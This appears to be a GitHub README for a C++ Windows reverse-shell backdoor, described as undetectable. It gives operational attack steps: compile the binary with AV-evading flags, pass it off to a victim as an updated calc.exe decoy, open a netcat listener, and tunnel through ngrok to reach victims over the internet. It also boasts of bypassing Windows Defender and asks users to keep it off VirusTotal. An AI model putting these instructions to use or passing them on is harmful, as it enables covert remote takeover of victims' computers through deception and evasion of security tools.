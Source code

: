 # Reverseshellcpp
A FUD Backdoor Reverse Shell coded in CPP for any Windows distribution, that will fire a decoy app in the foreground while connecting back to the attacker machine as a silent background process.

Change the IP to the attacker machine's IP and the port number to your desired port number and compile using:
i686-w64-mingw32-g++ reverse.cpp -o calc.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

Pass it to the attacker , stating that this is a updated version of calc.exe.
You can scan the application with your AV solutions , if you want , and I am pretty sure thant 98% of the AV solutions will NOT detect it.
It has passed the check of Windows Defender with an updated definition file.

PLEASE DO NOT UPLOAD TO VIRUSTOTAL !!!

Start a netcat listener on port 8080 using nc -lvp 8080

Once the victim executes the app, the decoy process (calc.exe) will fire up in the foregroud on the victim's end , while a reverse shell will fire up in the background, giving you a DOS prompt on the attacker's end (nc listener).

Type in POWERSHELL on the DOS prompt to leverage the post exploitation module.

PS: Even if the victim decides to exit the calc.exe the reverse shell session will be on , as they are running on 2 different processes.

Cheers

#Captain_Nemo

PS: For WAN exploits , fire up ngrok with the following parameters (incase port forwarding is dissalowed by your ISP)
./ngrok tcp 8080

Region                        United States (us)                                                                                        
Web Interface                 http://127.0.0.1:4040                                                                                     
Forwarding                    tcp://0.tcp.ngrok.io:19864 -> localhost:8080                                                              
                                                                                                                                        
Connections                   ttl     opn     rt1     rt5     p50     p90                                                               
                              0       0       0.00    0.00    0.00    0.00   
                              

Ping 0.tcp.ngrok.io atleast 6-7 times to get a stable mirror IP and port.
When u see that the IP and the port numbers are same after 5-6 last pings , use that IP and port in the code.> compile the code > pass it to the victim machine > make sure ngrok is NOT interrupted on the attacker machine as a new ngrok session will grab a new IP and port > start a nc -lvp 8080 on the attacker system. > execute the payload on the victim machine > get session over WAN/Internet on the attacker machine .

https://youtu.be/I-BsI-Yeh4w

A new incorporation and work in progress is the Reverse_msf.cpp module. Post compilation using the standard methods Metasploit DID grant a meterpreter session , yes, but most of the post capture modules are not working , and it seems either I have to incorporate the functions , which will OBVIOUSLY cause AV detection as those are the signature methods/functions that an antivirus looks for , or use a different payload in metasploit to get a RAW shell( this is afterall a netcat RAW shell) and upgrade that TO A METERPRETER SESSION(shell-to-meterpreter) post capture module, or write my own post exploit modules (A HUGE PROCESS).
Thus WORK IN PROGRESS for reverse_msf.cpp.

https://youtu.be/CM0XtXUoXRQ
